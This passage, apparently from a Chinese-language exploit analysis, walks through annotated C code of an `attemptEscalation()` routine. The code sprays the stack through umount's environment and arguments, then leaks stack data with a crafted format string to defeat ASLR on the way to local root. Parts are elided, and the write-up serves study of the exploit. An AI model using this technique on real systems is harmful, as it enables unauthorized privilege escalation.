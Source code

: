 这样准备工作就做好了。进入第二部分 `attemptEscalation()` 函数：
```c
int attemptEscalation() {
  [...]
  pid_t childPid=fork();
  if(!childPid) {
    [...]
    result=chdir(targetCwd);	// 改变当前工作目录为 targetCwd

// Create so many environment variables for a kind of "stack spraying".
    int envCount=UMOUNT_ENV_VAR_COUNT;
    char **umountEnv=(char**)malloc((envCount+1)*sizeof(char*));
    umountEnv[envCount--]=NULL;
    umountEnv[envCount--]="LC_ALL=C.UTF-8";
    while(envCount>=0) {
      umountEnv[envCount--]="AANGUAGE=X.X";		// 喷射栈的上部
    }
// Invoke umount first by overwriting heap downwards using links
// for "down", then retriggering another error message ("busy")
// with hopefully similar same stack layout for other path "/".
    char* umountArgs[]={umountPathname, "/", "/", "/", "/", "/", "/", "/", "/", "/", "/", "down", "LABEL=78", "LABEL=789", "LABEL=789a", "LABEL=789ab", "LABEL=789abc", "LABEL=789abcd", "LABEL=789abcde", "LABEL=789abcdef", "LABEL=789abcdef0", "LABEL=789abcdef0", NULL};
    result=execve(umountArgs[0], umountArgs, umountEnv);
  }
  [...]
  int escalationPhase=0;
  [...]
  while(1) {
    if(escalationPhase==2) {	// 阶段 2 => case 3
      result=waitForTriggerPipeOpen(secondPhaseTriggerPipePathname);
      [...]
      escalationPhase++;
    }

// Wait at most 10 seconds for IO.
    result=poll(pollFdList, 1, 10000);
    [...]
// Perform the IO operations without blocking.
    if(pollFdList[0].revents&(POLLIN|POLLHUP)) {
      result=read(
          pollFdList[0].fd, readBuffer+readDataLength,
          sizeof(readBuffer)-readDataLength);
      [...]
      readDataLength+=result;

// Handle the data depending on escalation phase.
      int moveLength=0;
      switch(escalationPhase) {
        case 0: // Initial sync: read A*8 preamble.		// 阶段 0，读取我们精心构造的 util-linux.mo 文件中的格式化字符串。成功写入 8*'A' 的 preamble
          [...]
          char *preambleStart=memmem(readBuffer, readDataLength,
              "AAAAAAAA", 8);	// 查找内存，设置 preambleStart
          [...]
// We found, what we are looking for. Start reading the stack.
          escalationPhase++;	// 阶段加 1 => case 1
          moveLength=preambleStart-readBuffer+8;
        case 1: // Read the stack.		// 阶段 1，利用格式化字符串读出栈数据，计算出 libc 等有用的地址以对付 ASLR
// Consume stack data until or local array is full.
          while(moveLength+16<=readDataLength) {	// 读取栈数据直到装满
            result=sscanf(readBuffer+moveLength, "%016lx",
                (int*)(stackData+stackDataBytes));
            [...]
```